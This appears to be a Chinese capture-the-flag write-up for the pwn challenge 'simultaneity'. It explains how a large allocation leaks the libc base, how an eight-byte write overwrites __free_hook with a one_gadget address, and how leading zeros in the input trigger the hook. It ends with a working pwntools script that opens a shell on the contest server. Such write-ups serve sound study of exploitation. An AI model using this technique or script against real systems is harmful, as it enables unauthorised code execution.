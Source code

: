 # simultaneity 15
>题目好难，按照题解的思路完成，增加了细节补充

题目先允许我们申请一块自定义地址大小的内存，然后读入一个偏移，内存+偏移的位置写8字节指定内容。  
二进制文件保护除了Canary全开，但是交互结尾的exit(0)也避免了简单的栈溢出，FULL RELO情况下不能打exit的got。  

在程序启动时，libc会给程序分配一块内存空间供简单申请使用，当申请的内存超过这块空间的大小但又不超过大堆的大小时（不同libc版本大小不同，在.so.6一个有效的大小是10001000）时，就会mmap到与libc对齐的一个大堆上，通过这个特性可以打出libc的基址：
>10001000  
you are here: 0x7f5a3951b010  
gdb-peda$ vmmap  
Start              End                Perm      Name  
0x000055a8c3780000 0x000055a8c3781000 r--p      /home/REDACTED/Desktop/simultaneity  
0x000055a8c3781000 0x000055a8c3782000 r-xp      /home/REDACTED/Desktop/simultaneity  
0x000055a8c3782000 0x000055a8c3783000 r--p      /home/REDACTED/Desktop/simultaneity  
0x000055a8c3783000 0x000055a8c3784000 r--p      /home/REDACTED/Desktop/simultaneity  
0x000055a8c3784000 0x000055a8c3785000 rw-p      /home/REDACTED/Desktop/simultaneity  
0x000055a8c3a9b000 0x000055a8c3abc000 rw-p      [heap]   
**0x00007f1c7638f000 0x00007f1c76d19000 rw-p      mapped** //我们申请的地址在这里  
0x00007f1c76d19000 0x00007f1c76d3e000 r--p      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76d3e000 0x00007f1c76e89000 r-xp      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76e89000 0x00007f1c76ed3000 r--p      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76ed3000 0x00007f1c76ed4000 ---p      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76ed4000 0x00007f1c76ed7000 r--p      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76ed7000 0x00007f1c76eda000 rw-p      /usr/lib/x86_64-linux-gnu/libc-2.31.so  
0x00007f1c76eda000 0x00007f1c76ee0000 rw-p      mapped  
0x00007f1c76ef8000 0x00007f1c76ef9000 r--p      /usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007f1c76ef9000 0x00007f1c76f19000 r-xp      /usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007f1c76f19000 0x00007f1c76f21000 r--p      /usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007f1c76f22000 0x00007f1c76f23000 r--p      /usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007f1c76f23000 0x00007f1c76f24000 rw-p      /usr/lib/x86_64-linux-gnu/ld-2.31.so  
0x00007f1c76f24000 0x00007f1c76f25000 rw-p      mapped  
0x00007ffdee798000 0x00007ffdee7b9000 rw-p      [stack]  
0x00007ffdee7d3000 0x00007ffdee7d7000 r--p      [vvar]  
0x00007ffdee7d7000 0x00007ffdee7d9000 r-xp      [vdso]  

用libc的起始地址减去我们申请到的起始地址，得到固定的偏移  
0x00007f1c76d19000 - 0x7f1c7638f010 = 10002416  

所以libc基址 = 申请到的地址+固定偏移  
这样就可以在ASLR开启的情况下计算出libc的基址，也就可以计算出__free_hook相对我们申请到的地址的偏移  

在读入数字时，我们可以添加大量前导零，迫使libc发起malloc，当成功读入数字后，系统会经由__free_hook调用free，这时候就会执行freehook地址中的指针指向的指令。  
我们可以修改8字节的内容，虽然不能完成system的ROP，但是在知道libc基址的情况下可以直接跳转到一个可用的gedget（就是一个现有的system("/bin/sh")地址），通过one_gadget查看可能可用的gedget：  
>$ one_gadget libc.so.6   
0x4484f execve("/bin/sh", rsp+0x30, environ)  
constraints:  
  rax == NULL  
>
>0x448a3 execve("/bin/sh", rsp+0x30, environ)  
constraints:  
  [rsp+0x30] == NULL  
>
>0xe5456 execve("/bin/sh", rsp+0x60, environ)  
constraints:  
  [rsp+0x60] == NULL  

找到三个gedget，经测试，后两个都满足可用条件。  

综上，利用脚本如下：
```python
from pwn import *

libc = ELF('libc.so.6')
binary = context.binary = ELF('simultaneity')

p = remote('mc.ax', 31547)
libc.symbols['gadget'] = [0x4484f, 0x448a3, 0xe5456][1]
p.sendlineafter(b'big?\n', b'10001000')
p.recvuntil(b'here: ')
libc.address = int(p.recvline().strip(), 16) + 10002416
p.sendlineafter(b'far?\n', str((libc.sym.__free_hook - libc.address + 10002416) // 8).encode())
p.sendlineafter(b'what?\n', 65536 * b'0' + str(libc.symbols['gadget']).encode())
p.interactive()
```